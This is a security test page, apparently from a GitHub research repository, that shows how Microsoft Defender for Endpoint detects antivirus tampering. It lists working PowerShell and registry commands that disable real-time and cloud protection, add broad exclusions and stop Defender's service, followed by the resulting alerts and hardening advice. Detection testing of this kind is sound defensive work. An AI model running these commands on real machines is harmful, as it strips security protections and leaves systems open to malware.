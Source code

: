# AV Tampering 
Microsoft Defender for Endpoint does provide AV tampering protection called **Tamper Protection**, preventing attackers from modifying values and disabling detection engines during defense evasion attempts. If Tamper Protection is enabled, AV tampering activities will be blocked. Even if not enabled, AV tampering activities will be detected by Microsoft Defender for Endpoint.

On this page, I would like to showcase **some test methods** and demonstrate **the detection/alerts** capabilities of Microsoft Defender for Endpoint. 

## Red Note (test insights)
**PowerShell, Defender Cmdlet** 
```powershell
# Disable real-time protection
Set-MpPreference -DisableRealtimeMonitoring $true
# Disable cloud-delivered protection
Set-MpPreference -MAPSReporting 0
# Modify exclusions - Extensions & Paths 
Set-MpPreference -ExclusionExtension "ps1" -ExclusionPath "C:\"
```

**PowerShell, creating new registry values**
```powershell
# Disable real-time protection
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name DisableRealtimeMonitoring -Value 1 -PropertyType DWord -Force
# Disable cloud-delivered protection
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" -Name SpynetReporting -Value 0 -PropertyType DWord -Force
# Modify exclusions - Extensions & Paths 
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" -Name "ps1" -Value 0 -PropertyType String -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" -Name "C:\" -Value 0 -PropertyType String -Force
```
> [!Important]
> If the specified path doesn't exist, PowerShell returns an error. So, please ensure that the path exists. If it doesn't exist, you can create it.
> e.g. if Exclusions/Extensions path doesn't exist
> ```powershell
> New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions" -Name 'Extensions' -Force -ErrorAction 0
> ```

**PowerShell, stop Defender Service & Process**
```powershell
Stop-Service -Name "WinDefend"
Stop-Process -Name "MsMpEng"
```

**Windows commands, creating new registry values**
```cmd
rem Disable real-time protection
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
rem Disable cloud-delivered protection
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
rem Modify exclusions - Extensions & Paths 
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" /v "ps1" /t REG_SZ /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" /f /v "C:\" /t REG_DWORD /d 0 /reg:64
```

**Windows commands, stop Defender Service, Network Service**
```cmd
sc stop WinDefend
net stop WinDefend
```

## Alerts & Detections
Here are alerts detected by Microsoft Defender for Endpoint and Microsoft Defender Antivirus. 
These alerts originated from the aforementioned PowerShell and CMD.

- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection
- [x] An active 'MpTamperSrvDisableAV' malware was prevented from executing via AMSI
- [x] An active 'MpTamperSrvDisableAV' malware in a command line was prevented from executing
- [x] Microsoft Defender Antivirus protection turned off
- [x] Microsoft Defender Antivirus tampering

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/4cc90ed3-6672-421b-84c0-4b8fb6e6b4f6)

**Detecting potential tampering activity in the Microsoft Defender portal**

When tampering is detected, an alert is raised. Some of the alert titles for tampering are : [Tamper resiliency](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/tamper-resiliency?view=o365-worldwide)
```
- Attempt to bypass Microsoft Defender for Endpoint client protection
- Attempt to stop Microsoft Defender for Endpoint sensor
- Attempt to tamper with Microsoft Defender on multiple devices
- Attempt to turn off Microsoft Defender Antivirus protection
- Defender detection bypass
- Driver-based tampering attempt blocked
- Image file execution options set for tampering purposes
- Microsoft Defender Antivirus protection turned off
- Microsoft Defender Antivirus tampering
- Modification attempt in Microsoft Defender Antivirus exclusion list
- Pending file operations mechanism abused for tampering purposes
- Possible Antimalware Scan Interface (AMSI) tampering
- Possible remote tampering
- Possible sensor tampering in memory
- Potential attempt to tamper with MDE via drivers
- Security software tampering
- Suspicious Microsoft Defender Antivirus exclusion
- Tamper protection bypass
- Tampering activity typical to ransomware attacks
- Tampering with Microsoft Defender for Endpoint sensor communication
- Tampering with Microsoft Defender for Endpoint sensor settings
- Tampering with the Microsoft Defender for Endpoint sensor
```

## Blue Note
- Turn on [Microsoft Defender Antvirus](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/next-generation-protection?view=o365-worldwide) (Including Real-Time Protection, Cloud Protection, Sample Submission and so on)
- Onboarding [Microsoft Defender for Endpoint](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-endpoint?view=o365-worldwide)
- Turn on Microsoft Defender for Endpoint, [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc)

## Reference
- [Current limits of Defender AV Tamper Protection](https://cloudbrothers.info/current-limits-defender-av-tamper-protection/)
- [Make sure Tamper Protection is turned on](https://techcommunity.microsoft.com/t5/microsoft-defender-for-endpoint/make-sure-tamper-protection-is-turned-on/ba-p/2695568)
- [When coin miners evolve, Part 1: Exposing LemonDuck and LemonCat, modern mining malware infrastructure](https://www.microsoft.com/en-us/security/blog/2021/07/22/when-coin-miners-evolve-part-1-exposing-lemonduck-and-lemoncat-modern-mining-malware-infrastructure/)
- [When coin miners evolve, Part 2: Hunting down LemonDuck and LemonCat attacks](https://www.microsoft.com/en-us/security/blog/2021/07/29/when-coin-miners-evolve-part-2-hunting-down-lemonduck-and-lemoncat-attacks/)


#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
